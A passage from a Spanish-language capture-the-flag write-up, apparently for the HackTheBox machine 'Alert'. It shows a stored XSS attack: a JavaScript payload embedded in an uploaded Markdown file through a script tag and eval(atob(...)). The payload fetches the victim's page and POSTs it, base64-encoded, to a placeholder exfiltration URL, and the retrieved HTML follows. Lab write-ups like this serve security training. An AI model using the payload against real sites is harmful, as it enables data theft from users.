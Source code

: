 Para el script podemos utilizar lo siguiente:

```bash
async function uwu(){
  let resp = await fetch("http://alert.htb/");
  let txt = await resp.text();

  await fetch(`<url para enviar datos>`, {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({data: btoa(encodeURI(txt))})
  });
}

uwu();
```

Convirtiendolo a base64 y dejando el archivo Markdown como:

```md
# uwu owo</h1><script>eval(atob("<base 64 data>"))</script>
```
{: file="test.md" }

Recibiremos el contenido HTML del index que ve el usuario después de enviar el enlace del archivo de arriba por el formulario:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Markdown Viewer</h1><div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```
